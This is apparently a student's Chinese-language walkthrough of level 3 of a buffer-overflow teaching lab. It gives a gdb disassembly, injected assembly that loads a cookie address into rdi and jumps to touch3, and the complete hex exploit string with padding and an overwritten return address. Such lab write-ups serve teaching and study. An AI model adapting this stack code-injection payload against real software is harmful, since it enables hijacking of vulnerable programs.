 本实验一定要仔细阅读文档, 这个实验知识了解性的, 文档上帮我们免去了很多麻烦.

---



### level3

```
(gdb) disas touch3, //只需要首地址即可
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:	push   %rbx
```

流程是test->getbuf->inject->touch3->hexmatch->touch3->success!

```
mov $0x5561dca8,%rdi // 由于我们传入的是地址, 所以要保证这块区域不会被hexmatch覆盖, 我们把内容藏在了rsp后面, 那么地址就是0x5561dca8
push $0x4018fa // 把touch3首地址压栈, 很明显我们要前往touch3
ret 

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
   
 
48 c7 c7 a8 dc 61 55 68 fa 18       // 注入代码，把cookie的内存地址传入rdi, 把touch3地址压入栈中, 然后ret                                                                         
40 00 c3 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
30 30 30 30 30 30 30 30 30 30
78 dc 61 55 00 00 00 00  
35 39 62 39 39 37 66 61 00  // cookie，用ascii码
```
